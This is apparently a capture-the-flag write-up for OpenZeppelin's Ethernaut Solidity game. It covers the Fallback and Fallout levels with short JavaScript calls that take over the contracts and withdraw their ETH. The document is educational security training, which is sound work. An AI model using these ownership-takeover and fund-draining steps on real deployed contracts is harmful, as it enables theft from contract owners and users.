 # Ethernaut Solutions

This post documents my solutions to [Ethernaut](https://ethernaut.openzeppelin.com/), an excellent Web3/Solidity game created by OpenZeppelin. Each level is a smart contract that needs to be hacked by exploiting vulnerabilities. 

## Difficulty Levels
- [Easy] - Basic concepts and simple vulnerabilities
- [Medium] - Requires understanding of contract mechanisms and common attack vectors
- [Hard] - Complex exploits and advanced concepts

## 01. Fallback ✅ [Easy]

This level tests knowledge of fallback functions:
- `receive()` function is called when the contract receives ETH
- `fallback()` function is called when calling non-existent functions
- Meet conditions by sending small amount of ETH and calling `contribute()` function
- Finally gain contract ownership through `receive()` function

Attack steps:
1. Call `contribute()` and send small amount of ETH (<0.001)
```js
await contract.contribute({value: web3.utils.toWei('0.0001')});
```

2. Send ETH directly to contract to trigger `receive()`
```js
await contract.sendTransaction({value: web3.utils.toWei('0.0001')});
```

3. Call `withdraw()` to extract all ETH
```js
await contract.withdraw();
```

## 02. Fallout ✅ [Easy]

This level tests constructor issues in early Solidity versions:
- Old versions used functions with same name as contract as constructor
- If function name doesn't exactly match contract name, it becomes a regular function
- Attacker can directly call this function to gain ownership

Attack steps:
1. Directly call `Fal1out()` function to gain contract ownership
```js
await contract.Fal1out();
```

2. Call `collectAllocations()` to withdraw funds
```js
await contract.collectAllocations();
```

Key learnings:
- Constructor security
- Importance of code auditing
- Newer versions use `constructor` keyword which is more secure
